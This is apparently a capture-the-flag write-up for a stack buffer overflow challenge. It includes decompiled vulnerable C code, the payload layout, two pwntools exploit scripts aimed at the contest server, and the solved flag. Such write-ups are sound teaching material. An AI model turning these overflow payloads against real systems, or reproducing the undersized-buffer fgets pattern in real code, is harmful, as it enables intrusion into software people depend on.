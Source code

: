 # **Challenge Name**: Admin?

## Challenge Description

Can you become Admin?  

**Connection**: `nc codefest-ctf.iitbhu.tech 51429`  

---

## Challenge Overview
The goal is to exploit a **buffer overflow** vulnerability to overwrite a critical variable (`local_14`) on the stack. By changing its value from `1` to `0x23456723`, we trigger the `win()` function, which prints the flag.  

### Key Code Snippets
```c
undefined4 main(void) {
  char local_34 [32]; // Buffer of size 32
  int local_14;       // Variable to overwrite (initialized to 1)
  fgets(local_34, 0x32, _stdin); // Reads up to 50 bytes into a 32-byte buffer
  if (local_14 == 0x23456723) { // Target condition
    win(); // Prints the flag
  }
}

void win(void) {
  FILE *flag_file = fopen("/flag.txt", "r");
  fgets(flag_buffer, 100, flag_file);
  puts(flag_buffer); // Prints the flag
}
```

---

## Approach
### Step 1: Understand the Vulnerability
- The `fgets` function reads **50 bytes** (`0x32` in hex) into a **32-byte buffer** (`local_34`). This allows us to overflow the buffer and overwrite adjacent variables on the stack.  
- The variable `local_14` (initialized to `1`) is located right after the buffer. Overwriting it to `0x23456723` triggers `win()`.

### Step 2: Calculate the Payload Structure
1. **Buffer Overflow**: Fill the 32-byte buffer (`local_34`) with junk data (e.g., `A`s).  
2. **Overwrite `local_14`**: Append the 4-byte value `0x23456723` in **little-endian** format.  

**Payload Structure**:  
```
[32 bytes of junk] + [0x23456723 in little-endian]
```

### Step 3: Exploit with Python and pwntools
Use `pwntools` to craft the payload and interact with the remote service:  

```python
from pwn import *

# Set up the connection
p = remote('codefest-ctf.iitbhu.tech', 51429)

# Craft the payload
payload = b'A' * 32          # Fill the 32-byte buffer
payload += p32(0x23456723)   # Overwrite local_14 with 0x23456723 (little-endian)

# Send the payload
p.sendline(payload)

# Receive the flag
print(p.recvall().decode())
```

---

## Detailed Explanation
### Why Little-Endian?
- Computers store multi-byte values in **little-endian** format (least significant byte first).  
- Example: `0x23456723` in hex becomes `\x23\x67\x45\x23` in bytes.  

### How the Overflow Works
1. **Buffer Layout**:  
   - `local_34` (32 bytes): `[AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA]`  
   - `local_14` (4 bytes): `0x00000001` (original value)  

2. **Overflow Execution**:  
   - Sending 32 bytes fills `local_34`.  
   - The next 4 bytes overwrite `local_14` to `0x23456723`.  

3. **Condition Check**:  
   The program checks `if (local_14 == 0x23456723)`. If true, `win()` prints the flag.  

---

## Solution Script
```python
import struct
from pwn import *

# Connect to the remote service
target = remote('codefest-ctf.iitbhu.tech', 51429)
# Address where we want to overwrite the local_14 variable to trigger the win() function
target_value = struct.pack('<I', 0x23456723)  # Little-endian format of the value to overwrite local_14
# Payload to overflow the buffer (32 bytes + value to overwrite local_14)
payload = b"A" * 32  # Fill the buffer with 32 'A's
payload += target_value  # Overwrite local_14 with 0x23456723
# Send the payload
target.sendline(payload)
# Receive and print the response
response = target.recvall()
print(response.decode())
# Close the connection
target.close()
```
---

## Flag
`CodefestCTF{15_th15_pr1v1l3g3_3sc4l4710n_zqzNfqGp}`  

---